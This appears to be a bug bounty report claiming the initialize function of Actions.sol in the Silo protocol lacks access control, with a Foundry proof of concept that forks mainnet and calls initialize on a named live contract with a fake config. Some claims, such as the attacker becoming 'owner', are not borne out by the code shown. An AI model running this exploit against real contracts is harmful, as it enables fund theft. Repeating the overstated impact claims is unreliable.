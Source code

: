 **Contract hijack via unprotected initialize in Actions.sol**

_Bug Severity:_ Critical 

_Target:_ https://sonicscan.org/address/0x435Ab368F5fCCcc71554f4A8ac5F5b922bC4Dc06?utm_source=immunefi#code#F10#L43-53





**Summary:**

Actions.sol acts as middleware in silo protocol, meaning if a user calls deposit or withdraw from silo.sol, the silo.sol will make an external call to Actions.sol, this contract handles multiple tasks such as:

accrueInterest, reentrancy protection, hook receiver, shareToken and asset addresses, interacts with vaults that change the storage.




**Vulnerability Details:**

After deep manual reviews i found out that the  attacker can get access and hijack the Actions.sol via calling initialize with malicious Config, fake hook receiver, shareToken and asset addresses, because the initialize function is unprotected, it lacks onlyOwner or initializer from openzepplin, because of that, anyone can call it and hijack the contract.

Furthermore, the silo's admin forgot to call initialize manually and it was not called in silo.sol constructor.

```solidity
// Actions.sol
@audit-bug-->  function initialize(ISiloConfig _siloConfig) external returns (address hookReceiver) { // ⚠️ BUG: Missing onlyOwner/initializer
        IShareToken.ShareTokenStorage storage _sharedStorage = ShareTokenLib.getShareTokenStorage();

        require(address(_sharedStorage.siloConfig) == address(0), ISilo.SiloInitialized());

        ISiloConfig.ConfigData memory configData = _siloConfig.getConfig(address(this));

        _sharedStorage.siloConfig = _siloConfig;

        return configData.hookReceiver;
    }
```




**Impact Details:**

- Attacker can fully hijack the Actions.sol contract by calling initialize() with malicious config.

- The attacker can point hookReceiver, shareToken, and other vault interactions to addresses under their control.

- This allows arbitrary logic injection into protocol flows, including vault draining and disabling of reentrancy protection.

- Once hijacked, the protocol team cannot reclaim the contract, leading to permanent loss of control and user funds.




**Proof of Concept (POC)**

The below PoC shows how an attacker called initialize function with malicious siloConfig, fake hook receiver, shareToken and asset addresses, finally the attacker became the owner of the Actions.sol contract.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "forge-std/Test.sol";

... existing code ...

contract FakeSiloConfig is ISiloConfig {
    function getConfig(address) external pure override returns (ConfigData memory) {
        return ConfigData({
            hookReceiver: address(0x90581aFC83520a649376852166B3df92153cEE20),  // You can put any address
            silo: address(0x39AA39c021dfbaE8faC545936693aC917d5E7563)  // put any address
        });
    }
}

contract SiloActionsInitialize is Test {
    address constant ACTIONS = 0x1F13CcDBd7cB2021e499D23478Dc292d48211c04; // Actions.sol mainnet address

    FakeSiloConfig fakeConfig;

    function setUp() public {
        vm.createSelectFork(vm.envString("SONIC_RPC_URL"), 34402746);

        fakeConfig = new FakeSiloConfig();
    }

    function test_Initialize() public {
       
        (bool success, bytes memory data) = ACTIONS.call(
            abi.encodeWithSelector(
                IActions.initialize.selector,
                fakeConfig
            )
        );
        require(success, string(data));
    }
}
```


**PoC Output:**


![PoC](https://github.com/user-attachments/assets/4c00c21a-3354-460d-9e61-5e8fd69fcc0c)
